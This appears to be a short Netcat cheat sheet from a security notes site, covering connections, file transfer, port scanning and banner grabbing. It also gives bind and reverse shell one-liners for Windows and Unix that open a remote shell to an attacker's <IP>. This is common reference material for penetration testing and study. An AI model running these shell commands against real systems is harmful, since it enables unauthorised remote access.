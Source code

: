 ```yaml
---
title:  "Netcat Cheat Sheet"
header: "Netcat Cheat Sheet"
categories: 
  - Cheatsheet
tags:
  - Netcat
---
```


Usage
-----
Insert picture here


Basic
-----
**TCP Port - Connecting**  
`nc -nv <IP> <PORT>`

**TCP Port - Listening**  
`nc -lvp <PORT>`

**Connect and return HTTP Page**  
`nc -nv <IP> 80`
`HEAD / HTTP/1.1`

**File Transfer**  
`nc -lvp 4444 > output.txt # Receiving End`  
`nc -nv <IP> < input.txt # Sending End`

**Port Scanning**  
`nc -z <IP> <PORT RANGE>`

**Banner Grabbing**  
`echo "" | nc -nv -w1 <IP Address> <Ports>`

Windows
-----
**Bind Shell**  
`nc -lvp 4444 -e cmd.exe`  
`nc -nv <IP> 4444 # Connect to the shell`

**Reverse Shell**  
`nc -lvp 443 # Attacking Machine - Waiting for shell`  
`nc -nv <IP> 443 -e cmd.exe # Target Machine - sending shell`

Nix
-----
**Bind Shell**  
`nc -lvp 4444 -e /bin/sh`  
`nc -nv <IP> 4444 # Connect to the shell`

**Reverse Shell**  
`nc -lvp 443`  
`nc -nv <IP> 443 -e /bin/sh`

Additional Resources
-----
[SANS Netcat Cheat Sheet](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)  

[Wikipedia](https://en.wikipedia.org/wiki/Netcat)
